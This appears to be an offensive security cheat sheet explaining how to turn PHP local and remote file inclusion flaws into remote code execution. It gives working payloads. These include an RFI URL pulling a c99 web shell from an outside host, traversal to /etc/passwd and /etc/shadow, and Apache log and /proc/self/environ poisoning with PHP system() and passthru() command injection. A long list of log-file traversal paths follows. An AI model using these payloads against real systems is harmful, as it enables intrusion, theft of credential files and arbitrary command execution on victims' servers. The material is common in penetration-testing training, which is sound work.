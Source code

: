 # LFI to RCE

#### URL:
1. https://www.exploit-db.com/papers/12992/

## File Inclusion
#### RFI
Injecting PHP script into target website, by means of including "external" files.

    http://www.hackme.com/index.php?page=http://www.cwh.org/c99.php?

NOTE: Addition of "?" at end of URL, fetch intended file with the appended string as a parameter.

#### LFI
Including "internal" files in a victim website. Often used to get `/etc/passwd` or `/etc/shadow`.

    http://www.hackme.com/index.php?template=../../../../etc/passwd%00

NOTE: "%00" (Null char) wil ignore everything that comes after it.

## LFI <> RCE
In the following examples, the environment in Unix-environments can be used to gain RCE privileges on the system. Mostly through the interface.

#### Apache Log - Access

1. Locate the Apache access.log-file

        /var/log/apache2/access.log
        curl -i LFI_URL?page=/var/log/apache2/access.log --cookie "COOKIE_INFO" -L

2. Make a request making it possible to execute commands (RCE). (Telnet, Netcat or Perl socket)

        telnet 127.0.0.1 80
        GET /<?php system($_GET['cmd']); ?> HTTP/1.1_

3. Use the browser for a reverse shell or cmd execution

        http://127.0.0.1/index.php?page=APACHE_LOG_FILE&cmd=ls

#### Apache Log - Error

1. Locate the Apache error.log-file

        /var/log/apache2/error.log
        curl -i LFI_URL?page=/var/log/apache2/error.log --cookie "COOKIE_INFO" -L

#### /proc/self/environ
When we request to PHP page, new process will be created. In Unix system, Each process has its own /proc entry. /proc/self/ is a static path and symbolic link from lastest process	used that contain useful information. If we inject malicious code into /proc/self/environ, we	can run arbitrary command from target via LFI. We use the **user-agent**.

1. Location of environ

        /proc/self/environ

2. Use "User Agent Switcher Add-ons" for Firefox or Burp to change User-Agent.

        User-Agent: <?passthru($_GET[cmd])?>_

3. Use the browser for a reverse shell or cmd execution

        http://127.0.0.1/index.php?page=/proc/self/environ&cmd=ls


##### EXTRA
###### Apache log files
For Apache logs:

    ../apache/logs/error.log
    ../apache/logs/access.log
    ../../apache/logs/error.log
    ../../apache/logs/access.log
    ../../../apache/logs/error.log
    ../../../apache/logs/access.log
    ../../../../../../../etc/httpd/logs/acces_log
    ../../../../../../../etc/httpd/logs/acces.log
    ../../../../../../../etc/httpd/logs/error_log
    ../../../../../../../etc/httpd/logs/error.log
    ../../../../../../../var/www/logs/access_log
    ../../../../../../../var/www/logs/access.log
    ../../../../../../../usr/local/apache/logs/access_ log
    ../../../../../../../usr/local/apache/logs/access. log
    ../../../../../../../var/log/apache/access_log
    ../../../../../../../var/log/apache2/access_log
    ../../../../../../../var/log/apache/access.log
    ../../../../../../../var/log/apache2/access.log
    ../../../../../../../var/log/access_log
    ../../../../../../../var/log/access.log
    ../../../../../../../var/www/logs/error_log
    ../../../../../../../var/www/logs/error.log
    ../../../../../../../usr/local/apache/logs/error_l og
    ../../../../../../../usr/local/apache/logs/error.l og
    ../../../../../../../var/log/apache/error_log
    ../../../../../../../var/log/apache2/error_log
    ../../../../../../../var/log/apache/error.log
    ../../../../../../../var/log/apache2/error.log
    ../../../../../../../var/log/error_log
    ../../../../../../../var/log/error.log
